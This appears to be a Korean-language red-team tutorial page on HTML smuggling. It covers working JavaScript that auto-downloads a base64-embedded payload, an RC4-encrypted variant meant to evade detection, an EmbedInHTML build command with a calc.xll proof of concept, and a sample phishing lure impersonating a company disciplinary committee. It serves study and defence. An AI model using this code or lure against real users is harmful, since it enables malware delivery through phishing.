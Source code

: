 # HTML 스머글링 (Smuggling)

출처와 중요 레퍼런스 - [https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/)

HTML 스머글링 (HTML Smuggling)은 자바스크립트와 HTML5의 download, anchor, click 등의 특성을 이용해 유저가 특정 HTML 페이지를 방문시 자동으로 파일을 다운 받도록 하는 기법이다.

1. HTML5 anchor 태그에는 download 라는 특성이 있다. 이 특성은 anchor 태그에 URL 형식으로 링크된 파일을 클라이언트가 다운로드 받도록 한다.
2. 자바스크립트의 Javascript Blob은 raw 데이터를 octet/stream 형태로 저장할 수 있게 해준다. 그 뒤 이 데이터는 createObjectURL을 통해 URL 형식으로 anchor 태그에 링크 될 수 있다.
3. 자바스크립트의 HTMLElement.click 함수는 anchor 태그에 링크된 파일을 자동으로 클릭해 다운로드 받게 한다.

위 3가지를 모두 합치면 HTML 페이지를 방문만 해도 페이로드가 다운로드 되도록 할 수 있다. HTML 스머글링은 다른 초기 침투 페이로드와 같이 사용되어 클라이언트의 디스크에 maldoc, XLL, DLL, HTA, JScript, ISO, ZIP 등의 파일들이 다운로드 되도록 한다.

고급화된 피싱 공격에서는 다음과 같이 HTML 스머글링을 이용하기도 한다.

* "<회사> 징계위원회입니다. 귀하와 관련된 익명의 신고가 접수되었으니 안전한 문서 접근을 위해 Safe URL 으로 가서 passcode: 1234를 입력한 뒤, 징계 문서를 확인주세요 -> \<HTML Smuggling 페이지 링크>"
* 피해자가 링크 클릭 -> HTML Smuggling 으로 문서 다운로드
* 문서를 여는 순간 페이로드 실행

### 장점

HTML 스머글링의 장점은 바로 호스트와 방어 기술들의 입장에서는 의심될만한 것이 많이 없다는 것이다. 아래는 Outflank 사의 블로그 포스트에서 가져온 이미지다:

![https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](<../.gitbook/assets/image (13) (1).png>)

타겟의 프록시/방화벽의 입장에서는 피해자 호스트가 단순한 HTML 페이지를 방문하는 것처럼 보인다. MIME Type도 text/html밖에 없고, 로드되는 코드들도 클라이언트-사이드의 자바스크립트 밖에 없다. 요새 자바스크립트 없는 웹 페이지가 없다보니 이상한 점은 없어보인다.

브라우저의 입장에서도 단순한 HTML과 자바스크립트가 로드되다보니 이상한 점은 없다. 브라우저는 HTML5와 자바스크립트의 기본적인 함수들을 이용해 하라는대로, 파일을 다운로드 한다.

### 코드

기본적인 코드는 base64 스트링을 디코딩해 Javascript blob로 만들고, 이를 anchor 태그에 URL 형식으로 걸어놓은 뒤 HTMLElement.click() 함수를 이용해 이를 다운 받는 코드다.

<details>

<summary>Outflank blog source code</summary>

```
function base64ToArrayBuffer(base64) {
  var binary_string = window.atob(base64);
  var len = binary_string.length;
  var bytes = new Uint8Array( len );
  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
  return bytes.buffer;
}

var file ='<< BASE64 ENCODING OF MALICIOUS FILE >>';
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'outflank.doc';

if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
else {
  var a = document.createElement('a');
  document.body.appendChild(a);
  a.style = 'display: none';
  var url = window.URL.createObjectURL(blob);
  a.href = url;
  a.download = fileName;
  a.click();
  window.URL.revokeObjectURL(url);
}
```

`base64ToArryBuffer` 함수를 이용해 base64 인코딩된 문자열을 ArrayBuffer 로 만든 뒤, 이를 new Blob 에다가 넣어 자바스크립트 데이터 Blob를 생성한다.

그 뒤 anchor 태그를 생성하고, `var url = window.URL.createObjectURL(blob)` 을 이용해 anchor 태그에 위에서 만든 Blob를 걸어준 뒤, `a.download` 및 `a.click` 으로 클라이언트 브라우저가 자동으로 파일을 다운받도록 한다.

</details>

위에서 살펴본 코드도 좋지만, 작전보안을 위해 파일을 암호화 한 뒤, 클라이언트 브라우저가 다운 받는 런타임 도중 복호화 해 다운 받도록 암호화를 추가하는 방법도 있다.

<details>

<summary>EmbedinHTML - AES Encryption</summary>

```
function rc4Function(r,o){for(var t,e=[],n=0,a="",f=0;f<256;f++)e[f]=f;for(f=0;f<256;f++)n=(n+e[f]+r.charCodeAt(f%r.length))%256,t=e[f],e[f]=e[n],e[n]=t;f=0,n=0;for(var h=0;h<o.length;h++)n=(n+e[f=(f+1)%256])%256,t=e[f],e[f]=e[n],e[n]=t,a+=String.fromCharCode(o.charCodeAt(h)^e[(e[f]+e[n])%256]);return a;}
function b64AndRC4Function(r,o){var s=[],j=0,x,res='';for(var i=0;i<256;i++)s[i]=i;for(i=0;i<256;i++)j=(j+s[i]+r.charCodeAt(i%r.length))%256,x=s[i],s[i]=s[j],s[j]=x;i=0;j=0;var data=atob(o);var dataLength=data.length;var array=new Uint8Array(new ArrayBuffer(dataLength));for(var y=0;y<dataLength;y++)i=(i+1)%256,j=(j+s[i])%256,x=s[i],s[i]=s[j],s[j]=x,array[y]=data.charCodeAt(y)^s[(s[i]+s[j])% 256];return array;}

var keyFunction = function(){return "test"};

var varPayload = "<base64ed-file-string>";

var varBlob = new Blob([b64AndRC4Function(keyFunction(), varPayload)], {type: "application/vnd.ms-excel"});
var varBlobShim = '(function(b,fname){if(window.navigator.msSaveOrOpenBlob)window.navigator.msSaveOrOpenBlob(b,fname);else{var a=window.document.createElement("a");a.href=window.URL.createObjectURL(b, {type:"application/vnd.ms-excel"});a.download=fname;document.body.appendChild(a);a.click();document.body.removeChild(a);}})';
setTimeout(varBlobShim+'(varBlob, "calc.xll")');
```

</details>

암호화 함수들인 `rc4Function` 과 `b64AndRC4Function` 을 추가한다. 그 뒤, keyFunction 에서 간단한 암호화 키인 "test" 를 지정한다. 이후 암호화되어 있던 `varPayload` 를 `b64AndRC4Function` 으로 복호화 한다. 그 뒤, `varBlobShim` 에서는 위 OutFlank 소스코드에 있던 anchor 태그, Download 특성, createObjectURL 등을 추가하는 자바스크립트 함수를 만든다. 그 뒤, 이를 실행하면 런타임 중 복호화를 진행한 뒤 파일을 다운받게 된다.

### 실습

실습에서는 EmbedinHTML 툴을 사용한다. 오래된 툴이라 파이썬 2.7을 사용해야한다. PoC를 위해 기본 코드 실행인 계산기를 실행하는 페이로드를 이용한다.

```
python2.7 embedInHTML.py -f ./payloads_examples/calc.xll -o test.html -w -k testkey
```

![](<../.gitbook/assets/htmlsmuggling-demo2 (1).gif>)

### 레퍼런스

{% embed url="https://outflank.nl/blog/2018/08/14/html-smuggling-explained/" %}

{% embed url="https://github.com/Arno0x/EmbedInHTML" %}
